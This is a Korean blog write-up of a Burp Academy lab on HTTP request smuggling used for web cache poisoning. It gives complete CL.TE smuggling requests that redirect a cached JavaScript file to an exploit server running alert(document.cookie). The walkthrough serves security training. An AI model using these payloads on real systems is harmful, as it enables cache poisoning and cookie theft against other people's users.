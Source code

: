 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to perform web cache poisoning"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-04-01 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: EXPERT (어려움)

# 취약점 개요 (HTTP 요청 스머글링을 통한 웹 캐시 포이즈닝)
- CL.TE 패턴에서 오렌지색 부분까지가 스머글링되는 부분이다. 하늘색부분 요청의 Content-Length 헤더 값은 오렌지색 부분까지의 길이 값이다. 
- 프론트 엔드서버는 이 것은 두 개의 요청으로 본다. 백엔드 서버는 세 개의 요청을 본다. 
- 오렌지색 부분이 밀반입(스머글링)되면, `GET /static/include.js` 에 대한 응답을 기다리는 프론트엔드 서버에게 attacker-website.com에 대한 리다이렉트 응답이 회신된다.
- 그 결과 `GET /static/include.js` 에 대한 응답이 attacker-website.com에 대한 리다이렉트 응답으로 캐싱된다! 
- 참고로 주황색 부분은 취약한 웹 사이트에서 302응답이 돌아오는 엔드포인트를 선정할 필요가 있다. 

![](/images/burp-academy-hrs-cache-poison-pattern.png)
*출처:https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-perform-web-cache-poisoning*

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 chunked encoding(TE헤더)을 지원하지 않는다. (즉, CL.TE패턴이다.)
- 프론트엔드 서버는 일부 응답을 캐싱한다.
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서 캐시를 오염시킨다. 그 결과 자바스크립트에 대한 요청이 exploit서버로 리다이렉트되도록 하면 된다. 그리고 exploit서버에서 준비한 alert(document.cookie)가 실행되도록 하면 된다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert document.cookie.
```

# 풀이 
1. 랩 서버를 살펴본다. 톱 페이지에는 `/resources/js/tracking.js`가 포함되어 있는 것을 볼 수 있다. 

![](/images/burp-academy-hrs-11-0.png)

그리고 `GET /resources/js/tracking.js` 요청의 응답에는 캐시가 사용되고 있는 것을 알 수 있다. 따라서 이 곳을 웹 캐시 포이즈닝의 타겟으로 삼을 수 있을 것이다. 

![](/images/burp-academy-hrs-11-1.png)

2. 다음 페이로드를 준비했다. GET /exploit 요청이 백엔드 서버로 밀반입되어 `GET /resources/js/tracking.js` 요청에 대한 응답을 기다리고 있는 프론트엔드 서버로 회신되면 프론트엔드 서버는 이 응답을 캐싱할 것이다. 

```http
POST / HTTP/1.1
Host: 0ad9001a04893b2789f029b300f700b2.web-security-academy.net
Cookie: session=NqmFb01lgHNowsNpIlm6Ugif2hN9WsuP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Length: 101
Transfer-Encoding: chunked

0

GET /exploit HTTP/1.1
Host: exploit-0af4004704b63bd0897f28b0013c00bf.exploit-server.net
Foo: XGET /resources/js/tracking.js HTTP/1.1

```

3. 그런데 결과는 다음과 같았다. 이 요청을 두번 요청하면 400 응답 `Duplicate header names are not allowed`가 돌아왔다. 아마 Host헤더 때문에 그런 것 같은데...

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 50

{"error":"Duplicate header names are not allowed"}
```

![](/images/burp-academy-hrs-11-2.png)

4. 모르겠다. 답을 본다. 

아하! 302응답이 돌아오는 엔드포인트를 찾는 것이 관건이었다. 블로그 글에서 다음 글을 보는 `Next Post`를 클릭했을 때의 요청 `GET /post/next?postId=9` 에 대한 응답이 302였다. 여기에 오픈리다이렉트 취약점이 있어서 임의의 Host 헤더에 대해서도 해당 주소로 회신을 해주고 있었다. 

```http
HTTP/2 302 Found
Location: https://0ad9001a04893b2789f029b300f700b2.web-security-academy.net/post?postId=10
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

5. 다시 풀어본다. 다음 요청을 보내본다. 

```http
POST / HTTP/1.1
Host: 0add00c20315cd8586a821b900f80025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: anything
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

두번 이어서 보내면 두번째 응답에서 302 응답, 그리고 Host헤더의 값을 임의의 값으로 설정할 수 있는 것을 볼 수 있다. 이 것으로 스머글링과 오픈 리다이렉트가 가능한 것을 알았다. 

![](/images/burp-academy-hrs-11-3.png)

6. exploit서버를 준비한다. /post 엔드포인트로 지정하고, Content-Type을 `text/javascript` 로 변경한다. 바디에서는 alert(document.cookie)가 실행되도록 한다. 

![](/images/burp-academy-hrs-11-4.png)

7. 웹 캐시를 오염시키기 위한 다음 요청을 보낸다. Repeater에서 Content-Length 값이 업데이트되지 않도록 설정에서 Update Content-Length 의 체크를 해제한다. 184는 x=1\r\n\r\n 까지의 길이를 의미한다. 


```http
POST / HTTP/1.1
Host: 0add00c20315cd8586a821b900f80025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 184
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a6a00aa0364cd9886f120d6013200a4.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1

GET /resources/js/tracking.js HTTP/1.1
Host: 0add00c20315cd8586a821b900f80025.web-security-academy.net
Connection: close


```

7. 요청을 두번 보내면 두번째 응답부터는 exploit서버로의 302 리다이렉트가 회신되는 것을 볼 수 있다. 이 것으로 `GET /resources/js/tracking.js` 요청에 대한 응답이 exploit서버의 컨텐츠(`alert(document.cookie)`)로 오염되었을 것으로 볼 수 있다.  

![](/images/burp-academy-hrs-11-5.png)

8. Repeater에서 `GET /resources/js/tracking.js`로 요청해본다. 처음에는 캐시된 응답(정상적인 응답)이 돌아오지만 캐시의 Age를 넘어서면, 새로 캐싱된 응답(exploit서버로 리다이렉트)이 돌아온다. 

![](/images/burp-academy-hrs-11-6.png)


9. 웹 브라우저에서도 테스트해본다. 

`https://0add00c20315cd8586a821b900f80025.web-security-academy.net/resources/js/tracking.js` 로 접속하면 오염된 캐시가 동작하여 `https://exploit-0a6a00aa0364cd9886f120d6013200a4.exploit-server.net/post?postId=4`로 리다이렉트 된다. 

![](/images/burp-academy-hrs-11-7.png)

10. 다시 랩 서버를 보면 문제가 풀렸다는 메세지가 출력된다. 

![](/images/burp-academy-hrs-11-success.png)


정리해본다. 다음 조건 하에서 공격이 성립한다 .
1. 프론트 엔드서버에 캐싱 기능이 있다. 일부 엔드포인트(정적파일 요청등)에서 이 캐싱이 사용된다.
2. 오픈 리다이렉트 취약점이 있다. (임의의 Host 헤더에 값을 설정하는 것으로 임의의 호스트로 리다이렉트시킬 수 있다.)
3. HTTP 요청 스머글링이 가능하다. 

=> 오픈리다이렉트 되는 요청을 스머글링하고, 바로 뒤 이어서 정적 파일 요청을 보내면, 정적 파일 요청에 대한 응답이 직전의 리다이렉트요청에 대한 응답으로 돌아온다. 그 결과 캐시가 오염된다. 